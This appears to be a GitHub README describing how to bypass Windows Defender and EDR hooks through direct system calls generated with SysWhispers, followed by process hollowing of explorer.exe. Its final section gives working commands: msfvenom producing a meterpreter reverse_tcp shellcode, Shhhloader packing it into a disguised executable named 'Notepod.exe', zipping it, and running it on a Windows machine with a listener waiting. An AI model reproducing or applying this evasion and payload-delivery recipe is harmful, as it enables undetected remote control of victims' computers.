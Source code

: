 # Defeat Windows Defender using direct Syscall

## Protection rings


![image](https://user-images.githubusercontent.com/76106120/151554524-e5d661f2-6d22-4051-a2bf-40367cf6ac2f.png)


Windows Operating System as some security rings in order to avoid any one to access critical memory region.
There is the user-mode where the applications are running (ring 3) and the kernel mode (ring 0) with the critical system components.
Some resources cannnot be accessed by specific application in order to prevent malicious behavior.

Application are isolated from critical memory section and system resources are running in Kernel Mode.
To make the translation between user mode and kernel mode there is an dll called ntddl.dll.
Ntddl.dll gives the right Api call perform by the user mode, thanks to that the kernel can make the right system call.

#### In the image just below, you can see how the user mode and the kernel mode interract :
 
![image](https://user-images.githubusercontent.com/76106120/151559138-3b33e231-e4a8-4af7-a561-c34278648b02.png)
 
 
The AV/EDR products knows that the sensitive spot is when the ntdll.dll give the syscall number to execute to the kernel mode.
If an AV/EDR recognize strange syscall, they will hook the API.
 
To bypass this, it is possible to make direct system call. We can execute system call without using the ntdll.dll.
This is where the SysWhisper projet will be useful to us. With syswhisper you are able to generate file Syscall.h who contain all the syscall of each windows operating system.
SysWhisper gives us all the syscall that we need for any type of os, with that we are able to make direct syscall as if they were normal Native API functions.
We do not need to pass thought the ntdll.dll, a therefore to pass under the radar of AV/EDR.

### Let's take an example :

If we want to use the NT system call CreateFile, we should call the NtCreateFile located in the ntdll.dll. But instead of this we are directly invoking SysNtCreateFile.

![image](https://user-images.githubusercontent.com/76106120/151571082-cb09f257-e154-4329-9f3f-13b1e06cc1ca.png)

 
The AV/EDR product could not hook the API because we are not using API calls, we are using direct syscall.
So the AV/EDR cannot intercept our attemps and we would have opened it succesfully 🙂

### Process Hollowing

Now that we are able to use NT system call under the radar of AV/EDR products.
We want to run our shellcode.

How it's working:

1) Create the target process (ex: explorer.exe) in a suspended state.

2) Parse the create process in order to find the EntryPoint

3) Then Write the shellcode to the EntryPoint and resume the thread execution.

 
## Shhhloader project (https://github.com/icyguider/Shhhloader):

> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw -o tesssssst.bin
 
> ./Shhhloader.py tesssssst.bin -p explorer.exe -o Notepod.exe
 
> zip Notepod.exe Doc.zip
 
 - Drag and drop .zip in your Windows machine.
 - Start meterpreter listener and set payload to windows/x64/meterpreter/reverse_tcp (Shhhloader only support staged payload, so you have to provide it the right one !!!)
 - run the Notepod.exe
 
![image](https://user-images.githubusercontent.com/76106120/151585618-3b3790d7-e591-4c40-976e-5d8e6c5bfef4.png)

 
 
 
 




